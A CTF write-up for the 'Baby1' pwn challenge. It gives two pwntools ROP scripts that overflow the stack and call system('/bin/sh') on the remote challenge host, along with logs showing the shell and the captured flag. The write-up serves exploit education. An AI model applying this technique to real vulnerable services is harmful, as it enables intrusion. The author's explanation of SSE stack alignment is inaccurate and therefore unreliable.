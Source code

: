 ## Baby1
### Category : Misc

---

So, after decompilation in Ghidra, looking at the strings. It looked like [BabyRop](../Harekaze/Babyrop.md) from Harekaze CTF. But the script didn't work. It kept giving a segmentation fault. After some research, I came across that Ubuntu uses SSE Registers in its libc functions.

SSE Registers need memory aligned with the registers for the commands to be executed. So we need to pad the payload with `ret` insturctions for it to work.



---

### Unintended Solution. 

---

So, while working on the problem, my offset function failed, and returned -1. For some reason, that gave me an access to the shell. Giving me the flag.

So, to get the bug again, I set offset = -1. 

exploit.py

```
from pwn import *

def get_offset(elf):
    io = process(elf.path)
    io.sendline(cyclic(2010))
    io.wait()
    core = io.corefile
    stack = core.rsp
    info("%#x stack", stack)
    pattern = core.read(stack, 4)
    info("%r pattern", pattern)
    offset = cyclic_find(pattern)
    info("OFFSET : %s",offset)
    return offset

elf = context.binary = ELF('baby1')

offset = -1

shell = next(elf.search("/bin/sh"))

system = elf.symbols.system

ret = 0x000000000040053e
pop_gadget = 0x0000000000400793

info("SYSTEM : %#x" , system)
info ("SHELL : %#x", shell)
info("POP Gadget : %#x",pop_gadget)
shell = p64(shell)
system = p64(system)
ret = p64(ret)
pop_gadget = p64(pop_gadget)
info("SYSTEM : %s" , system)
info ("SHELL : %s", shell)
info("POP Gadget : %s",pop_gadget)

payload = 'A'*(offset)
payload += ret*8
payload += pop_gadget
payload += shell
payload += system

print(len(payload))
#io = process(elf.path)
io = remote('baby-01.pwn.beer',10001)
#payload = "A"*40 + gadget + print_flag + system
io.recvuntil("input: ")
io.sendline(payload)
io.interactive()
```

Output

```
python2 exploit.py           Thursday 23 May 2019 09:34:57 PM IST
[*] '/sec_fest/baby1/baby1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] SYSTEM : 0x400560
[*] SHELL : 0x400286
[*] POP Gadget : 0x400793
[*] SYSTEM : `\x05@\x00\x00\x00\x00\x00
[*] SHELL : \x86@\x00\x00\x00\x00\x00
[*] POP Gadget : \x93\x07@\x00\x00\x00\x00\x00
88
[+] Opening connection to baby-01.pwn.beer on port 10001: Done
[*] Switching to interactive mode
$ whoami
baby1
$ ls
baby1
flag
redir.sh
$ cat flag
sctf{1.p0p_r3GIs73rS_2.pOp_5H3lL_3.????_4.pr0FiT}
$ exit
/home/baby1/redir.sh: line 2:  1646 Segmentation fault      (core dumped) ./baby1
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to baby-01.pwn.beer port 10001
[*] Got EOF while sending in interactive
 ~/D/s/baby1  code exploit.py      11.8s  Thursday 23 May 2019 09:35:35 PM IST
 ~/D/s/baby1                       191ms  Thursday 23 May 2019 09:36:12 PM IST
 ~/D/s/baby1  python2 exploit.py   191ms  Thursday 23 May 2019 09:36:49 PM IST
[*] '/sec_fest/baby1/baby1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] SYSTEM : 0x400560
[*] SHELL : 0x400286
[*] POP Gadget : 0x400793
[*] SYSTEM : `\x05@\x00\x00\x00\x00\x00
[*] SHELL : \x86@\x00\x00\x00\x00\x00
[*] POP Gadget : \x93\x07@\x00\x00\x00\x00\x00
88
[+] Opening connection to baby-01.pwn.beer on port 10001: Done
[*] Switching to interactive mode
$ whoami
baby1
$ ls
baby1
flag
redir.sh
$ cat flag
sctf{1.p0p_r3GIs73rS_2.pOp_5H3lL_3.????_4.pr0FiT}
$ exit
/home/baby1/redir.sh: line 2:  1672 Segmentation fault      (core dumped) ./baby1
$ 
[*] Got EOF while reading in interactive
$ 
[*] Closed connection to baby-01.pwn.beer port 10001
[*] Got EOF while sending in interactive
```
---

### Intended Solution
---

[SSE](https://en.wikibooks.org/wiki/X86_Assembly/SSE) are 2 registers working as a single register. But in x86, unaligned memory access mov in 2 cyles and aligned in 1. So if they are unaligned, always, we'd end up filling half the register in 1 cycle and half in the 2nd half. So, SSE rejects the address resulting in a segfault. So whenever we call system(), in reality it is calling do_system(), and to align it by one more cycle, we need to pad the exploit with an additional address. Hence, we pad it with a ret gadget. 

exploit.py

```
from pwn import *

def get_offset(elf):
    io = process(elf.path)
    io.sendline(cyclic(2010))
    io.wait()
    core = io.corefile
    stack = core.rsp
    info("%#x stack", stack)
    pattern = core.read(stack, 4)
    info("%r pattern", pattern)
    offset = cyclic_find(pattern)
    info("OFFSET : %s",offset)
    return offset

elf = context.binary = ELF('baby1')

offset = get_offset(elf)

shell = next(elf.search("/bin/sh"))

system = elf.symbols.system

ret = 0x000000000040053e
pop_gadget = 0x0000000000400793

info("SYSTEM : %#x" , system)
info ("SHELL : %#x", shell)
info("POP Gadget : %#x",pop_gadget)
shell = p64(shell)
system = p64(system)
ret = p64(ret)
pop_gadget = p64(pop_gadget)
info("SYSTEM : %s" , system)
info ("SHELL : %s", shell)
info("POP Gadget : %s",pop_gadget)

payload = 'A'*(offset)
payload += ret
payload += pop_gadget
payload += shell
payload += system

print(len(payload))
#io = process(elf.path)
io = remote('baby-01.pwn.beer',10001)
#payload = "A"*40 + gadget + print_flag + system
io.recvuntil("input: ")
io.sendline(payload)
io.interactive()
```
output
```
python2 exploit.py                                               8.3s  Thu 23 May 2019 21:51:47 IST
[*] '/sec_fest/baby1/baby1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/sec_fest/baby1/baby1': pid 867
[*] Process '/sec_fest/baby1/baby1' stopped with exit code -11 (SIGSEGV) (pid 867)
[!] Found bad environment at 0x7ffc0f722fc0
[+] Parsing corefile...: Done
[*] '/sec_fest/baby1/core.867'
    Arch:      amd64-64-little
    RIP:       0x400727
    RSP:       0x7ffc0f721258
    Exe:       '/sec_fest/baby1/baby1' (0x400000)
    Fault:     0x6161616861616167
[*] 0x7ffc0f721258 stack
[*] 'gaaa' pattern
[*] OFFSET : 24
[*] SYSTEM : 0x400560
[*] SHELL : 0x400286
[*] POP Gadget : 0x400793
[*] SYSTEM : `\x05@\x00\x00\x00\x00\x00
[*] SHELL : \x86@\x00\x00\x00\x00\x00
[*] POP Gadget : \x93\x07@\x00\x00\x00\x00\x00
56
[+] Opening connection to baby-01.pwn.beer on port 10001: Done
[*] Switching to interactive mode
$ whoami
baby1
$ ls
baby1
flag
redir.sh
$ cat flag
sctf{1.p0p_r3GIs73rS_2.pOp_5H3lL_3.????_4.pr0FiT}
$ exit
/home/baby1/redir.sh: line 2:  1866 Illegal instruction     (core dumped) ./baby1
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to baby-01.pwn.beer port 10001
[*] Got EOF while sending in interactive
```